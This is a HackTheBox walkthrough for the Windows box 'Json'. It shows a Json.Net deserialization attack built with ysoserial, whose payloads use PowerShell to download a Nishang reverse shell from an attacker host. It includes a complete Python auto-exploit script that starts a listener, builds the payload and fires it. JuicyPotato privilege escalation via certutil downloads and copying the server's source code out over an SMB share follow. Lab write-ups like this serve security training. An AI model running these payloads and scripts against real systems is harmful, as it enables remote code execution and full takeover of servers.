

This Box was a Windows Medium Box from HackTheBox. The exploration is trough deserealization in .NET. Which we explored with ysoserial. The root part we got different paths to get it. I did only the JuicyPotato one.

In the future I'll make it again and complete all the paths.

The autoexploit is on the post. Hope you enjoy.

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.158
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We open it on the browser and see what is being shown.

When tryied to access 10.10.10.158 on the browser.

It shows us a login panel but before quickly show a dashboard before redirect


Then automatically redirects to the login page


So we take a closer look at burp suite to see what is happening here

We see a bunch of js files being logged on our screen


We try the user `admin:admin` and gets logged in


What is good to look is that the login request sets a cookie


It seems to be base64 encoded

```
OAuth2=eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=
```


We see that the password is the word "admin" md5 hash


# Deserealization Attack

It's a typical case of deserealization atack on this box

If we try to play with a different base64 token we got a interesting error message


`"ExceptionMessage":"Cannot deserialize Json.Net Object"`

We possible can perform a deserealization attack on this box!

Let's generate one RCE with `ysoserial`

```ps1
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c "ping -n 2 10.10.14.20"
```

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c ping 10.10.14.20']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

We decode, and test it


It's working, now let's get a reverse and automated shell on this box

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.20/rev.ps1')']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

# Inetsrv Auto Shell

Let's automate our reverse shell with a python script

As always, we will use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```


json_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto JSON.Net Deserealizaiton Exploit - JSON HackTheBox
# Date: 19/09/21

import argparse
import requests
import sys
import base64
import os
from threading import Thread
import threading
import http.server
import socket
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread


'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setup the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Setting the python web server
def webServer():
    debug = True
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True
        thread.start()
    else:
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Mount the payload
def mountPayload(lhost,lport):
    if os.path.isfile('Invoke-PowerShellTcp.ps1'):
        os.system("rm Invoke-PowerShellTcp.ps1")
    print("[+] Let's download the Nishang reverse [+]")
    os.system("wget -q -c https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1")
    print("[+] Download Ok! [+]")
    print("[+] Let's add the call to reverse shell! [+]")
    file = open('Invoke-PowerShellTcp.ps1', 'a')
    file.write('Invoke-PowerShellTcp -Reverse -IPAddress %s -Port %s' %(lhost,lport))
    file.close()
    print("[+] Call added! [+]")


# Function to create the ysoserial payload
def createPayload(lhost):
''' 
Command used in windowns box with ysoserial with some modifications to get the ps1 reverse shell
ysoserial.exe -g WindowsIdentity -f Json.Net -c "ping 10.10.14.20"
'''
    pay ="{\n"
    pay +="    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',\n"
    pay +="    'MethodName':'Start',\n"
    pay +="    'MethodParameters':{\n"
    pay +="        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',\n"
    pay +="        '$values':['cmd','/c powershell.exe IEX(New-Object Net.WebClient).DownloadString(\\'http://%s/Invoke-PowerShellTcp.ps1\\')']\n" %lhost
    pay +="    },\n"
    pay +="    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}\n"
    pay +="}"
    global payload
    payload = b64e(pay)

# Function just to encode base64 things
def b64e(s):
    return base64.b64encode(s.encode()).decode()
    
# Function to send the payload to the server
def sendPayload(rhost,payload):
    url = "http://%s:80/api/Account/" %rhost
    headers = {"Accept": "application/json, text/plain, */*", "Bearer": "%s" %payload}
    r.get(url, headers=headers, proxies=proxies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()

    lhost = args.ipaddress
    lport = args.port
    rhost = args.target

    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Let's mount the ps1 nishang
    mountPayload(lhost,lport)
    # Create the json payload
    createPayload(lhost)
    # Send the payload
    sendPayload(rhost,payload)

if __name__ == '__main__':
    main()
```

Now, let's become administrator on this box

We got three paths for it, but I'll show just one because of the time we have.

# Inetsrv --> Administrator

The first path we will explore is a `SeImpersonatePrivilege` enabled, which we can use the `JuicyPotato` to become root

We see the version of the windows


We get the CLSID for this this version on the [Docs](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter)


`https://ohpe.it/juicy-potato/`

`https://github.com/ohpe/juicy-potato/releases/tag/v0.1`

```sh
certutil -urlcache -split -f http://10.10.14.20:8000/JuicyPotato.exe C:\Users\Public\Documents\JuicyPotato.exe
```


Now we create a call

`"IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.20:8000/Invoke-PowerShellTcp.ps1')"`

`certutil -urlcache -split -f http://10.10.14.20:8000/reverse.bat C:\Users\Public\Documents\reverse.bat`


```ps
.\JuicyPotato.exe -t * -p .\reverse.bat -l 1111 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```


# Source Code Analysis

To find the vulnerability place of this box, we must do a code analysis in it.

With that in mind, let's copy the source code to our box

```
impacket-smbserver share . -username 0x4rt3mis -password 123456 -smb2support
net use \\10.10.14.20\share /u:0x4rt3mis 123456
Copy-Item -Path "C:\inetpub\*" -Destination "\\10.10.14.20\share" -Recurse
```

Now we look for signatures of serialization on the source code

```sh
grep -lRi JavaScriptTypeResolver
grep -lRi TypeNameHandling
```

We found in three dll files, so it's interesting to take a closer look at it


We open the dll files in our [Commando VM](https://github.com/mandiant/commando-vm) with the [dnSpy](https://github.com/dnSpy/dnSpy) which decompile the dll

We look at the controllers of the `DemoAppExplanaiton.dll`


And it uses the TypeNameHandling to the bearer cookie. It's the vulnerable part of the code which allow us do unserialize malicious data. That's the way you possible found the vulnerability in a white box approach.